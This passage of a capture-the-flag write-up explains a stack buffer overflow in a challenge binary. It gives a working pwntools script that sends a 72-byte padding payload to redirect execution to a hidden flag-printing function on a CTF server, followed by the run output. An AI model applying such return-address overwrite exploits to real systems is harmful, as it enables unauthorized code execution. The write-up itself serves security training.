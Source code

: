 ```shell
```

So we know we overwrite our return pointer after 72 bytes. That's all we need to make the exploit work, here's what I wrote in python to make it happen:

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./reto')

ret = 0x00402209  # beginning of the left in unreachable code
                  # that does cat flag
local = False
if local:
    p = process("./reto")
else:
    p = remote("armando.ctf.cert.unlp.edu.ar", 15002)
p.recvline()
p.sendlineafter(b'Username: ', b'')

# ret addr offset: 72
payload = b'A' * 72
payload += p64(ret)

p.sendlineafter(b'Password: ', payload)
p.interactive()
```

And running it, we just have to select option 3 to exit and we successfully `ret` to address `0x00402209` and grab a flag.

```shell
$ ./exploit.py
[*] 'reto'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './reto': pid 155133
[*] Switching to interactive mode

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA    "@
 ---------------------------------------------------------------------------------------------------------
|   Due to GDPR policies we are going to store this sensitive information in our new imaginary database.   |
 ---------------------------------------------------------------------------------------------------------

Now, tell me what to do: 
---[1] Check balance
---[2] Buy Argentinian Flags
---[3] exit

Select an option: $ 3

We hope you have enjoyed the market.

[+] Success 
La best flag is: flag{test_flag_here_for_writeup}
```
